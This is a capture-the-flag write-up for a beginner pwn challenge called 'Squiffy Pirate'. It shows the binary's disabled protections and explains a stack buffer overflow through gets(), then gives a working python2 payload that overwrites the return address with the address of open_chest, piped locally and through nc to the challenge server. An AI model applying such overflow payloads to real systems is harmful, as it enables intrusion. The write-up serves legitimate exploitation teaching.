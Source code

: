 # Squiffy Pirate
>Author: Nic#4234

This is meant to be a very simple pwn challenge with all protections disabled.

We can check the binary and its protections with `file` and `checksec`:
```sh
$ file squiffy-pirate
squiffy-pirate: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=b3819600171dc3571489f279d68a3c32ff43692b, for GNU/Linux 3.2.0, not stripped

$ checksec squiffy-pirate
[*] '~/squiffy-pirate'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

To solve this challenge, simply overflow the [buffer](insert-link-here) by sending 32 arbitrary bytes followed by the address of the function `open_chest` represented in Little Endian (LSB), which will overwrite the programs return instruction pointer (EIP, since this is a 32-bit executable). The address can be found by running `$ nm squiffy-pirate | grep chest` -> `080491b2`)

This is possible since the program is using the vulnerable function `gets()` which attempts to store everything we input into the specified buffer, without checking the size of the buffer. This allows program internals to be overwritten:

```sh
# Local:
python2 -c 'print "A" * 32 + "\xb2\x91\x04\x08"' | ./squiffy-pirate

# Remote:
python2 -c 'print "A" * 32 + "\xb2\x91\x04\x08"' | nc squiffypirate.tghack.no 1337
```

Alternatively the challenge can be solved with pwntools (see `exploit.py`).

Congratulations! You solved the challenge.
